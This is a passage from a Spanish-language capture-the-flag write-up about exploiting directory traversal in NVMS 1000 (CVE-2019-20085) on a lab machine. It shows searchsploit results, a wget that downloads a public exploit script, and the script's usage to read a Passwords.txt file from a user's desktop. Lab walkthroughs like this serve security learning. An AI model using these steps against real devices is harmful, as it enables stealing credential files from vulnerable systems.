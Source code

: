 ```bash
❯ searchsploit nvms 1000
----------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                 |  Path
----------------------------------------------------------------------------------------------- ---------------------------------
NVMS 1000 - Directory Traversal                                                                | hardware/webapps/47774.txt
TVT NVMS 1000 - Directory Traversal                                                            | hardware/webapps/48311.py
----------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
Papers: No Results
```

Tenemos unos dos que hacen referencia a *Directory Traversal* de forma que podemos leer archivos del sistema y aquí nos preguntamos para que nos sirve; pues bueno, resulta que el usuario **Nadine** le comenta al usuario **Nathan** que en su escritorio dejo un archivo llamado **Passwords.txt**; por lo que ya tenemos una posible ruta `C:\Users\Nathan\Desktop\` y un archivo a leer `Passwords.txt`, así que usaremos la herramienta [nvms.py](https://github.com/AleDiBen/NVMS1000-Exploit/blob/master/nvms.py).

```bash
❯ wget https://raw.githubusercontent.com/AleDiBen/NVMS1000-Exploit/master/nvms.py
--2022-01-15 21:45:28--  https://raw.githubusercontent.com/AleDiBen/NVMS1000-Exploit/master/nvms.py
Resolviendo raw.githubusercontent.com (raw.githubusercontent.com)... 185.199.109.133, 185.199.108.133, 185.199.111.133, ...
Conectando con raw.githubusercontent.com (raw.githubusercontent.com)[185.199.109.133]:443... conectado.
Petición HTTP enviada, esperando respuesta... 200 OK
Longitud: 3032 (3.0K) [text/plain]
Grabando a: «nvms.py»

nvms.py                          100%[=======================================================>]   2.96K  --.-KB/s    en 0s      

2022-01-15 21:45:29 (60.3 MB/s) - «nvms.py» guardado [3032/3032]
❯ python3 nvms.py
****************************************************************
**                      ~CVE 2019-20085~                      **
****************************************************************

USAGE  :
        ./nvms.py <TARGET_IP> <TARGET_FILE> [OUT_FILE]
EXAMPLE:
        python nvms.py 195.135.100.10 Windows/system.ini win.ini
```

La herramienta requiere de los parámetros `<TARGET_IP>`,  `<TARGET_FILE>` y  `[OUT_FILE]`; en donde `<TARGET_IP> = 10.10.10.184`,  `<TARGET_FILE> = Users/Nathan/Desktop/Passwords.txt` y  `[OUT_FILE] = Passwords.txt`; así que vamos a ejecutarla.
